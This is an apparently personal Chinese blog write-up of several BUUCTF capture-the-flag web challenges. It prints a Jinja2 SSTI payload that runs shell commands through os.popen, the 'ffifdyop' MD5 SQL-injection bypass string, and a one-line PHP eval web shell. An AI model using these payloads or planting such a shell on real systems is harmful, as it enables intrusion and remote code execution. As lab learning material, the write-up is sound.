 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu摸鱼日记（5）

## [BJDCTF 2nd]fake google

这题大威天龙，大胆妖孽，我一眼就看出他是SSTI

```
7*7}}7*'7'}}
```

可以判断他是flask框架

随手测试一下，发现甚至没有过滤

推断一下，是python3

拿burp爆破一下subclasses ，就可以得到要用的类

```
qaq?name=().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__.__builtins__['eval']("__import__('os').popen('find / -name \"flag*\"').read()")}}
```

于是读取目录，find命令查找flag 发现根目录里就有flag

然后cat flag 秒杀

这题不怎么难

## [BJDCTF2020]Easy MD5

说实话，题目不难，就是想不到

文件头里有个Hint（根本没看到）

select * from 'admin' where password=md5($pass,true)

关键是md5($pass,true)要返回一个'' or 1这样的东西

可以写个php来爆破，也可以网上找个Payload

**ffifdyop** 会形成'or'6<乱七八糟的值> 构成万能密码sql注入

后面一个是md5零值绕过 一个是数组绕过 都很简单，就不写了

## [ACTF2020 新生赛]Upload

简单的传马（我居然把码写错了）

写一下重新记一下

```php
<?php eval(@$_POST['a']);?>
```

## [RoarCTF 2019]Easy Java

完全没学过java,所以原理并不很清楚，大致复现了一下（迷迷糊糊）

一个另类的文件包含
